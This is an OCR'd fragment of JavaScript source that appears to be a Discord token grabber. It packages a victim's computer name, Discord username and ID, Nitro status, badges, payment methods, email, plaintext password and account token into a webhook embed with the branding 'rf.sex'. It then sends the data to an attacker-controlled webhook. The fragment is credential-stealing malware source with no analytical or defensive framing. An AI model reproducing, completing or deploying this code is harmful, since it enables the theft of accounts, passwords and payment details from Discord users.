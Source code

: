                                                     value: `\`${computerName}\``,
                                                    inline: !0
                                                }, {
                                                    name: "username:",
                                                    value: `\`${json.username}#${json.discriminator}\``,
                                                    inline: !0
                                                }, {
                                                    name: "id:",
                                                    value: `\`${json.id}\``,
                                                    inline: !0
                                                }, {
                                                    name: "nitro:",
                                                    value: `${getNitro(json.premium_type)}`,
                                                    inline: !0
                                                }, {
                                                    name: "badges:",
                                                    value: `${getBadges(json.flags)}`,
                                                    inline: !0
                                                }, {
                                                    name: "payment methods:",
                                                    value: `${cool()}`,
                                                    inline: !0
                                                }, {
                                                    name: "email:",
                                                    value: `\`${email}\``,
                                                    inline: !0
                                                }, {
                                                    name: "password:",
                                                    value: `\`${password}\``,
                                                    inline: !0
                                                }, {
                                                    name: "token:",
                                                    value: `\`\`\`${token}\`\`\``,
                                                    inline: !1
                                                }, ],
                                                "author": {
                                                    "name": "rf.sex"
                                                },
                                                "footer": {
                                                    "text": "better than all."
                                                },
                                                "thumbnail": {
                                                    "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                                }
                                            }, {
                                                "title": `total friends (${totalFriends()})`,
                                                "color": config['embed-color'],
                                                "description": calcFriends(),
                                                "author": {
                                                    "name": "rf.sex"
                                                },
                                                "footer": {
                                                    "text": "better than all."
                                                },
                                                "thumbnail": {
                                                    "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                                }
                                            }]
                                        }
                                        sendToWebhook(JSON.stringify(params))
                                    })
                                })
                            })
                        })